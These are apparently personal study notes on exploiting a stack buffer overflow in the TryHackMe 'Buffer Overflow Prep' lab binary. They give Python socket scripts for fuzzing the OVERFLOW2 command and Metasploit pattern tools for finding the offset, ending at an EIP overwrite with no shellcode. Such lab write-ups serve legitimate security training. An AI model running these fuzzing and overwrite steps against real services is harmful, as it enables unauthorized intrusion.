









# BufferOverflow Notes
Thanks to Legacy for for being a great teacher! You can also refer to his guide as well as mine.  
[Legacyy](https://github.com/iilegacyyii)  
[Legacyy's cheat sheet](https://github.com/iilegacyyii/x32-BOF-Notes)  

### I will will be using Buffer Overflow Prep Lab on tryhackme as an example
https://tryhackme.com/room/bufferoverflowprep
#
# How do I start?  
- Identify and understand your program.
  - What does it do?
  - What functions does it have?
  - Can force the program to segment fault?

### Testing the program
- Let's launch the program first and understand it. Let's start off by connecting to the program using netcat.



- We can see the incoming connects to the listening port 1337.



- Let's create a python script and create a socket connection to the server ip and port. In this lab, we are first testing the local binary, so we will use 127.0.0.1 as the ip address and port 1337. We can see the program responding, we then set

```python
import socket

HOST = "127.0.0.1"
PORT = 1337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

buf = b""
buf = b"HELP"

s.send(buf)
print(s.recv(1024))
```
- We can see multiple functions we can test. 


- We will then send a large number of bytes to function OVERFLOW2.

```python
import socket

HOST = "127.0.0.1"
PORT = 1337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

print(s.recv(1024))

buf = b""
buf += b"OVERFLOW2 "
buf += b"A"*5000

s.send(buf)
print(s.recv(1024))
```

- We will use immunity debugger to test the program. Open the binary and press F9 to start the program.



- When you execute the python script the program will segment fault causing the program to crash. You will then be able to view your registers. Your EIP will be overwritten with A's (41414141).



### Exploiting the program

- Knowing that 2000 bytes of A's we can then generate a cyclic pattern of characters using msf-pattern_create.

```
msf-pattern_create -l 1234
```
```python
import socket
import struct

HOST = "127.0.0.1"
PORT = 1337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

pattern = b"<PATTERN>"

buf = b""
buf += b"OVERFLOW2 "
buf += pattern

s.send(buf)
print(s.recv(1024))
```



- Set your pattern to a variable and add it to your buf variable and test it again in immunity.



- Your EIP will get overwritten by your cyclic pattern in this case we got '76413176'.



- Find your offset value by running your cyclic overwritten EIP against msf-pattern_offset

```
msf-pattern_offset -q 76413176
```

- You will now get an offset value of 634



- Set your offset to a variable and add it to your buf variable. Your "A" will multiply by your offset value this will be your buffer. Overwrite your EIP with your B's by adding them to your buf variable. 

```python
import socket
import struct

HOST = "127.0.0.1"
PORT = 1337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))
offset = 634

buf = b""
buf += b"OVERFLOW2 "
buf += b"A" * offset
buf += b"BBBB"

s.send(buf)
print(s.recv(1024))
```

- Rerun the program on immunity and test again. Verify that EIP has been overwritten.




